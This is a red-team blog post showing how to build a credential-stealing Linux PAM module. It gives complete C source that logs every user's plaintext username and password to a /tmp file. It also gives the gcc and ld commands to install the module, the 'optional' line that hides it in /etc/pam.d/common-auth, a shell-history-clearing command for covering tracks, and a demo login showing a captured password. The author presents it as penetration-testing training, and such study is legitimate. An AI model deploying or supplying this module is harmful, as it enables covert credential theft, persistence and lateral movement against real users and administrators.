 ```yaml
---
layout: post
title:  "Crafting Malicious Pluggable Authentication Modules for Persistence, Privilege Escalation, and Lateral Movement"
tags: hacking linux authentication red-teaming
---
```


## Synopsis

Since its inception in 1997, PAM (Pluggable Authentication Modules) have served as a library for enabling local system administrators to choose how individual applications authenticate users. A PAM module is a single executable binary file that can be loaded by the PAM interface library, which is configured locally with a system file, `/etc/pam.conf`, to authenticate a user request via the locally available authentication modules. The modules themselves will usually be located in the directory `/lib/security` or the `/usr/lib64/security` directory depending on architecture and operating system, and take the form of dynamically loadable object files.

In this guide, we will discuss how these modules can be harnessed to create malicious binaries for capturing credentials to use in persistence, privilege escalation, and lateral movement.

## PAM Components

![PAM](https://www.redhat.com/sysadmin/sites/default/files/styles/embed_large/public/2020-06/PAM_diagramm4.png?itok=1M-9Td1w)

---

As we manipulate authentication programs, here are the useful file locations for different PAM components:

### /usr/lib64/security

A collection of PAM libraries that perform various checks. Most of these modules have man pages to explain the use case and options available.

```console
root@salsa:~# ls /usr/lib64/security
pam_access.so      pam_faillock.so       pam_lastlog.so    pam_nologin.so    pam_setquota.so    pam_tty_audit.so
pam_cap.so         pam_filter.so         pam_limits.so     pam_permit.so     pam_shells.so      pam_umask.so
pam_debug.so       pam_fprintd.so        pam_listfile.so   pam_pwhistory.so  pam_sss_gss.so     pam_unix.so
pam_deny.so        pam_ftp.so            pam_localuser.so  pam_pwquality.so  pam_sss.so         pam_userdb.so
pam_echo.so        pam_gdm.so            pam_loginuid.so   pam_rhosts.so     pam_stress.so      pam_usertype.so
pam_env.so         pam_gnome_keyring.so  pam_mail.so       pam_rootok.so     pam_succeed_if.so  pam_warn.so
pam_exec.so        pam_group.so          pam_mkhomedir.so  pam_securetty.so  pam_systemd.so     pam_wheel.so
pam_extrausers.so  pam_issue.so          pam_motd.so       pam_selinux.so    pam_time.so        pam_xauth.so
pam_faildelay.so   pam_keyinit.so        pam_namespace.so  pam_sepermit.so   pam_timestamp.so
```

### /etc/pam.d

A collection of configuration files for applications that call `libpam`. These files define which modules are checked, with what options, in which order, and how to handle the result. These files may be added to the system when an application is installed and are frequently edited by other utilities.

```console
root@salsa:~# ls /etc/pam.d/
chfn             common-session                 gdm-launch-environment          login     runuser    su-l
chpasswd         common-session-noninteractive  gdm-password                    newusers  runuser-l
chsh             cron                           gdm-smartcard                   other     sshd
common-account   cups                           gdm-smartcard-pkcs11-exclusive  passwd    su
common-auth      gdm-autologin                  gdm-smartcard-sssd-exclusive    polkit-1  sudo
common-password  gdm-fingerprint                gdm-smartcard-sssd-or-password  ppp       sudo-i
```

### /etc/security

A collection of additional configuration files for specific modules. Some modules, such as pam_access and pam_time, allow additional granularity for checks. When an application configuration file calls these modules, the checks are completed using the additional information from its corresponding supplemental configuration files. Other modules, like pam_pwquality, make it easier for other utilities to modify the configuration by placing all the options in a separate file instead of on the module line in the application configuration file.

```console
root@salsa:~# ls /etc/security/
access.conf      faillock.conf  limits.conf  namespace.conf  namespace.init  pam_env.conf    sepermit.conf
capability.conf  group.conf     limits.d     namespace.d     opasswd         pwquality.conf  time.conf
```

### /var/log/secure

Most security and authentication errors are reported to this log file. Permissions are configured on this file to restrict access.

## Developing the Malicious Module

For this demonstration, imagine that you have gained access to a Linux system, discovering a misconfigured cronob that allowed you to escalate privileges to root. To laterally move throughout the network, you want to capture credentials of legitimate users who occasionally login to the system. To achieve this, we will craft a PAM to capture and output the credentials of the user to a `tmp` file.

After conducting initial reconnaissance, we identify that the system is running `Ubuntu 22.04`:

```console
root@salsa:~# unset HISTSIZE HISTFILESIZE HISTFILE # Covering tracks
root@salsa:~# uname -a
Linux salsa 6.2.0-37-generic #38~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Thu Nov  2 18:01:13 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

Because this device is `x86_64` and running Ubuntu, research reveals that the modules are located within the `/usr/lib/x86_64-linux-gnu/security/` directory. With this in mind, we can begin to craft our executable using C. The following code captures and outputs credentials to a `tmp` file:

```C
#include <security/pam_appl.h>
#include <stdio.h>

int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    const char *username;
    const char *password;

    // Get the username and password
    if (pam_get_user(pamh, &username, "Username: ") != PAM_SUCCESS) {
        return PAM_AUTH_ERR;
    }

    if (pam_get_authtok(pamh, PAM_AUTHTOK, &password, "Password: ") != PAM_SUCCESS) {
        return PAM_AUTH_ERR;
    }

    // Write creds to a tmp file
    FILE *file = fopen("/tmp/pam_su.tmp", "a");
    if (file != NULL) {
        fprintf(file, "Username: %s\nPassword: %s\n\n", username, password);
        fclose(file);
    } else {
        return PAM_AUTH_ERR;
    }

    return PAM_SUCCESS;
}

int pam_sm_setcred(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    return PAM_SUCCESS;
}
```

To compile the binary, we can make use of `gcc` and `libpam0g-dev` to build the PAM module:

```console
gcc -fPIC -fno-stack-protector -c pam_su.c
```

Now that we have created the binary, we can link it with PAM without having to restart the system:

```console
ld -x --shared -o /usr/lib/x86_64-linux-gnu/security/pam_su.so  pam_su.o
```

Now that the binary is created and linked, we will edit the PAM configuration file `/etc/pam.d/common-auth` to include our malicious module. This specific file is used to define authentication-related PAM modules and settings that are common across multiple services, whether this be SSH, LDAP, or even VNC. Instead of duplicating authentication configurations in each individual service file, administrators centralize common authentication settings in this file.

```console
root@salsa:~# vim /etc/pam.d/common-auth

#
# /etc/pam.d/common-auth - authentication settings common to all services
#
# This file is included from other service-specific PAM config files,
# and should contain a list of the authentication modules that define
# the central authentication scheme for use on the system
# (e.g., /etc/shadow, LDAP, Kerberos, etc.).  The default is to use the
# traditional Unix authentication mechanisms.
#
# As of pam 1.0.1-6, this file is managed by pam-auth-update by default.
# To take advantage of this, it is recommended that you configure any
# local modules either before or after the default block, and use
# pam-auth-update to manage selection of other modules.  See
# pam-auth-update(8) for details.

# here are the per-package modules (the "Primary" block)
auth    [success=2 default=ignore]      pam_unix.so nullok
auth    [success=1 default=ignore]      pam_sss.so use_first_pass
# here's the fallback if no module succeeds
auth    requisite                       pam_deny.so
# prime the stack with a positive return value if there isn't one already;
# this avoids us returning an error just because nothing sets a success code
# since the modules above will each just jump around
auth    required                        pam_permit.so
# and here are more per-package modules (the "Additional" block)
auth    optional                        pam_cap.so
auth    optional                        pam_su.so
# end of pam-auth-update config
```

Within this file, we can inconspicuously add our optional authentication module as it is not required to succeed for authentication to occur. With this in place, we can monitor the `/tmp/pam_su.tmp` for new logins. To test the module, I created a new user named `sysadmin` and logged in via SSH:

```console
➜  ~ ssh sysadmin@10.0.0.104
sysadmin@10.0.0.104's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-37-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

$ cat /tmp/pam_su.tmp
Username: sysadmin
Password: hacked
```

## Conclusion

I hope that this guide was an informative journey to improving your penetration testing and red-teaming skills. If you have any questions, enjoyed the content, or would like to check out more of our research, feel free to visit our GitHub.

